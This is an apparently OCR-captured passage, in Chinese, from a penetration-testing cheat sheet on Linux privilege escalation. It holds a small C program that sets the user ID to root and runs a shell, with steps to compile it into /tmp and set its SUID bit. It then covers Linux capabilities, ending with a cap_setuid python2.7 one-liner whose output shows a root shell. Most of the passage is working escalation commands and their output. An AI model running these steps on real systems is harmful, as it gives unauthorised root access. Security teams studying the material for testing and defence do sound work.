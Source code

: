 
```bash
print 'int main(void){
setresuid(0, 0, 0);
system("/bin/sh");
}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # 执行权限
sudo chmod +s /tmp/suid # 设置suid位
```


## 功能

### 列出二进制的功能

```powershell
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### 编辑功能

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### 有趣的功能

拥有能力=ep意味着二进制文件具有所有功能。

```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

或者，可以使用以下功能来提升当前权限。

```powershell
cap_dac_read_search # 读取任何内容
cap_setuid+ep # 设置用户ID
```

使用`cap_setuid+ep`进行权限提升的示例

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```
